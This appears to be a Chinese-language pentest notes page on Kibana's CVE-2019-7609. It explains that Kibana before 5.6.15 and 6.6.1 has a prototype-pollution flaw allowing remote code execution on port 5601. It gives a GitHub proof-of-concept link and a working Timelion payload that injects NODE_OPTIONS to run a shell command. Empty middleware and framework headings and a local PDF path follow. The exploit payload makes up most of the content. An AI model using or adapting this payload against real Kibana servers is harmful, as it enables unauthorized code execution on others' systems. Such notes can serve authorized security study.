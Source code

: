 Kibana为Elassticsearch设计的一款开源的视图工具。其5.6.15和6.6.1之前的版本中存在一处原型链污染漏洞，利用漏洞可以在目标服务器上执行任意代码。默认端口：5601

```
https://github.com/LandGrey/CVE-2019-7609
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//') .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

# 中间件

F:\xiaodi\60-集成工具箱&脚本&EXP等\Web中间件常见漏洞总结.pdf

# 框架


